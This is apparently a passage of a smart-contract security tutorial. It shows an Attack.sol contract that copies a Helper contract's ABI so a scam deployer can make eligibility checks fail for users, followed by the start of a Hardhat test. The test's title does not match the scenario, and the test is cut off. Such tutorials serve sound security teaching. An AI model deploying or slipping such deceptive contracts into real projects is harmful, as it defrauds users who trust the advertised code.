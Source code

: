 //SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Attack {
    address owner;
    mapping(address => bool) userEligible;

    constructor() {
        owner = msg.sender;
    }

    function isUserEligible(address user) public view returns(bool) {
        if(user == owner) {
            return true;
        }
        return false;
    }

    function setUserEligible(address user) public {
        userEligible[user] = true;
    }
    
    fallback() external {}
}
You will notice that the fact about Attack.sol is that it will generate the same ABI as Helper.sol eventhough it has different code within it. This is because ABI only contains function definitions for public variables, functions and events. So Attack.sol can be typecasted as Helper.sol.

Now because Attack.sol can be typecasted as Helper.sol, a malicious owner can deploy Good.sol with the address of Attack.sol instead of Helper.sol and users will believe that he is indeed using Helper.sol to create the eligibility list.

In our case, the scam will happen as follows. The scammer will first deploy Good.sol with the address of Attack.sol. Then when the user will enter the eligibility list using addUserToList function which will work fine because the code for this function is same within Helper.sol and Attack.sol.

The true colours will be observed when the user will try to call isUserEligible with his address because now this function will always return false because it calls Attack.sol's isUserEligible function which always returns false except when its the owner itself, which was not supposed to happen.

Lets try to write a test and see if this scam actually works, create a new file inside the test folder named attack.js

const { expect } = require("chai");
const { BigNumber } = require("ethers");
const { ethers, waffle } = require("hardhat");

describe("Attack", function () {
  it("Should change the owner of the Good contract", async function () {
    // Deploy the Attack contract
    const attackContract = await ethers.getContractFactory("Attack");
    const _attackContract = await attackContract.deploy();
    await _attackContract.deployed();
    console.log("Attack Contract's Address", _attackContract.address);

    // Deploy the good contract
    const goodContract = await ethers.getContractFactory("Good");
    const _goodContract = await goodContract.deploy(_attackContract.address, {
      value: ethers.utils.parseEther("3"),
    });
    await _goodContract.deployed();
    console.log("Good Contract's Address:", _goodContract.address);
